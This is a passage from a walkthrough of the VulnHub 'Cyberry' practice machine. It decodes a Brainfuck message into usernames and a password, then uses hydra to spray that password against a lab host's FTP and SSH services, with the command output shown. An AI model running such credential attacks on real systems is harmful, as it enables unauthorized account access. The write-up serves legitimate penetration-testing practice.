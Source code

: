 Despite its strange looking form, the code above was written in the esoteric [Brainfuck][4] language. Using an online [interpreter][5], it was deciphered to the following.

```
Hello World!
team members
chuck
halle
nick
terry
mary
kerry
pw: bakeoff
```

OK. I have the team members' names and a password but to whom does the password belong to? This can be verified very easily using `hydra`.

```
# hydra -L members.txt -p bakeoff -f ftp://192.168.198.128
[21][ftp] host: 192.168.198.128 login: mary password: bakeoff

# hydra -L members.txt -p bakeoff -f ssh://192.168.198.128
[22][ssh] host: 192.168.198.128 login: mary password: bakeoff
```

Too bad `mary` did not have a shell. Let's see what we can discover from FTP instead.

### FTP Access

![ftp.png](/assets/images/posts/cyberry-walkthrough/cyberry-9.png)

Noticed that `.bash_history` is a directory? This is unusual and definitely worth taking a closer look.

![.bash_history.png](/assets/images/posts/cyberry-walkthrough/cyberry-10.png)


[1]: https://www.vulnhub.com/entry/cyberry-1,217/
[2]: https://twitter.com/@cyberrysec
[3]: https://www.vulnhub.com
[4]: https://en.wikipedia.org/wiki/Brainfuck
[5]: https://copy.sh/brainfuck/